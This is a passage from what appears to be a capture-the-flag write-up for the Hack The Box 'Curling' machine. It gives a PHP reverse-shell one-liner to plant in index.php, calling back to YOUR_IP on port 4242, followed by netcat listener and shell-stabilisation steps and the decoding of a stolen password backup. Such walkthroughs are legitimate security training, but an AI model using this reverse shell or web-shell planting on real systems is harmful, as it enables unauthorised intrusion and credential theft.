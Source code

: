 Add  `$sock=fsockopen("YOUR_IP",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);` to index.php

![](/assets/img/HTB/Curling/Pasted image 20240624215222.png)

Open a listener in the attacker machine on port 4242

![](/assets/img/HTB/Curling/Pasted image 20240624215323.png)

Then, go to *http://10.10.10.150*

![](/assets/img/HTB/Curling/Pasted image 20240624215333.png)
And our netcat will receive a shell

To upgrade and stabilize the shell use `python3 -c 'import pty;pty.spawn("/bin/bash");'`, *CTRL + Z*, `stty raw -echo; fg` and `export TERM=xterm`

![](/assets/img/HTB/Curling/Pasted image 20240624215908.png)


## Shell as floris

In target machine, we are www-data, we don't belong to any special group and the kernel version is 4.15.0 

![](/assets/img/HTB/Curling/Pasted image 20240624220151.png)

Listing '/home/floris' directory we found a 'password_backup' file with read permissions on all users

![](/assets/img/HTB/Curling/Pasted image 20240624220502.png)

Contents file is encrypted. Searching on google we find that the 'BZh' in the first line right means that this is a bz2 file

![](/assets/img/HTB/Curling/Pasted image 20240624225244.png)

Transfer the file to attacker's machine to work with it
Firstly, transform file from ASCII to binary with xxd

`cat password_backup | xxd -r > password_backup2`
![](/assets/img/HTB/Curling/Pasted image 20240624232513.png)

Decrypt file with bzip2

`bzip2 -d password_backup.bz2`
![](/assets/img/HTB/Curling/Pasted image 20240624232524.png)

Result file is a gzip file. Decrypt it with gzip

`gzip -d password_backup.gz`
![](/assets/img/HTB/Curling/Pasted image 20240624232537.png)

Again, the result file is a bzip2. Decrypt it again
